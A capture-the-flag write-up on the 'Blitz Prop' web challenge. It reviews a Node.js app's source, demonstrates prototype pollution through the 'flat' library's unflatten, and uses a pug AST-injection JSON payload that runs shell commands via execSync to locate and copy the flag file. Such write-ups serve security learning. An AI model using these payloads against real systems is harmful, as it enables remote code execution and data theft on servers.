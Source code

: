 # Blitz Prop

## First Look

The web page for Blitz Prop is a beautiful, futuristic looking feedback form. As the user, we are provided with a list of songs from a famous alien band called Blitz Prop and asked to choose our favorite.

![BlitzProp](./images/BlitzProp.png)

There are some hints here in the songs names for those with the right insight, but we'll ignore those. Instead, the source code is available, so let's treat this like something of a code review:

```js
const path = require("path");
const express = require("express");
const pug = require("pug");
const { unflatten } = require("flat");
const router = express.Router();

router.get("/", (req, res) => {
  return res.sendFile(path.resolve("views/index.html"));
});

router.post("/api/submit", (req, res) => {
  const { song } = unflatten(req.body);

  if (
    song.name.includes("Not Polluting with the boys") ||
    song.name.includes("ASTa la vista baby") ||
    song.name.includes("The Galactic Rhymes") ||
    song.name.includes("The Goose went wild")
  ) {
    return res.json({
      response: pug.compile(
        "span Hello #{user}, thank you for letting us know!"
      )({ user: "guest" }),
    });
  } else {
    return res.json({
      response: "Please provide us with the name of an existing song.",
    });
  }
});
```

A cursory look shows that our input is 'unflattened' using the 'flat' library then checked for one of the song names as a substring. If a song is found, pug is used to process a template and return some text to display on the webpage. A quick look at the form payload reveals flattened JSON that we can fiddle with using Burp, developer tools, curl, or whatever your favorite tool is for sending HTML requests.

![BlitzProp-Request](./images/bp-request.png)

## Identifying the vulnerability

The application is very simple. Node.js and Express are commonly used, robust tools for serving javascript based web applications. However, both `pug` and `flat` are interesting.

[Pug.js](https://pugjs.org/api/getting-started.html) is a templating tool. In this app, it is used for one thing: [String Interpolation](https://en.wikipedia.org/wiki/String_interpolation#JavaScript). Since string interpolation is built-in to javascript, we have reason to be suspicious here. However, the string being subsituted is hardcoded, so this could be a red-herring, so let's set it aside for now and look at flat.

[Flat](https://github.com/hughsk/flat) is a tool for flattening and unflattening JSON objects. In our case, it will transform the JSON payload from our above image to:

```json
{
  "song": {
    "name": "Not Polluting with the boys"
  }
}
```

And that's all that we have available to exploit. Unflatten is the only thing that processes our user input. Since our input is being unflattened and loaded as a javascript object into `song` variable, what if we could write or overwrite other items in Node's object space?

### Prototype Pollution

[Prototype Pollution](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c) is a potent vulnerability. See the excellent medium article by Dani Akash that I linked to learn about it. Play around with it in your browser console or Node to grasp it.

Vulnerabilities to Prototype Pollution are subtle, but can result in many issues from bypassing [authorization](https://auth0.com/intro-to-iam/what-is-authorization/) to [Denial of Service (DoS)](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/) to [Remote Code Execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

### Testing our Idea

We can run a quick test to see if unflatten is vulnerable to prototype pollution using node. Let's import the `flat` library, run a payload through the `unflatten` function and see if Node's object space is polluted:

```js
Welcome to Node.js v12.13.0.
Type ".help" for more information.
> const { unflatten } = require("flat")
undefined
> const payload = {'song.name': 'Not Polluting with the boys', 'Object.__proto__.Hello': 'World'}
undefined
> unflatten(payload)
{ song: { name: 'Not Polluting with the boys' }, Object: {} }
> payload.Hello
'World'
```

Bingo! We were able to pollute the Object space so that all objects have a property called `Hello` with value `World`.

## Find the Weakness

How do we exploit this? There are no if brances to bypass in the code. The default Object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own function.

**Note:** This is because functions definitions are not valid JSON and so will fail. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "RIP ⚰"' }` but it will break everything as a critical _function_ has now been redefined as a _string_.

We could achieve RCE if we could find an `exec()` or `eval()` statement _anywhere in our application_. Maybe Pug?..

A little bit of googling with the terms `pug prototype pollution` hands us another excellent article called [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/), this one by Beomjin Lee. In this article, we find essentially an identical setup using `pug` and `flat`.

### Exploit

The linked blog is kind enough to provide a payload and goes into some detail on how it works. The underlying principle is Prototype Pollution, as discussed, but its worth reviewing the Pug source code to understand why it happens. However, that is outside the scope of this write-up, so we will proceed with our exploit.

If you have a system with a public IP that you can use to get a reverse shell, you're golden, but I will offer an alternative. The base app makes all items in the path `/static` publicly available:

```js
const express = require("express");
const app = express();
const routes = require("./routes");
const path = require("path");

app.use(express.json());
app.set("views", "./views");
app.use("/static", express.static(path.resolve("static")));

app.use(routes);

app.all("*", (req, res) => {
  return res.status(404).send("404 page not found");
});

app.listen(1337, () => console.log("Listening on port 1337"));
```

So, let's just move our flag file there and view in our browser 😁
Since we don't know the flag file name, we'll see two payloads. I will use firefox dev tools to submit the payload because I'm lazy 😎

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`find / -type f -name '*flag*' > static/possible_flags.txt`)"
  }
}
```

We are presented with a server error, but it just shows our code executed!

```log
Error: Command failed: find / -type f -name '*flag*' > static/possible_flags.txt
find: /root: Permission denied
find: /proc/tty/driver: Permission denied
find: /proc/1/task/1/fd: Permission denied
find: /proc/1/task/1/fdinfo: Permission denied
find: /proc/1/task/1/ns: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/1/map_files: Permission denied
find: /proc/1/fdinfo: Permission denied
find: /proc/1/ns: Permission denied
find: /proc/26/task/26/fd: Permission denied
find: /proc/26/task/26/fdinfo: Permission denied
find: /proc/26/task/26/ns: Permission denied
find: /proc/26/fd: Permission denied
find: /proc/26/map_files: Permission denied
find: /proc/26/fdinfo: Permission denied
find: /proc/26/ns: Permission denied
 on line 1
    at checkExecSyncError (child_process.js:621:11)
    at Object.execSync (child_process.js:657:15)
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:13:63)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:17:7)
    at /app/routes/index.js:16:81
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
```

Let's visit /static/possible_flags.txt:

![BlitzProp_Find_Error](./images/bp-find-error.png)

The flag name is protected using [Security through Obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity), but not very well. Let's go ahead and snag it:

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`cp /app/flagF4jzU static/flag.txt`)"
  }
}
```

Submit the same way and check it out in the browser:

![BlitzProp_Flag](./images/bp-flag.png)

Success!
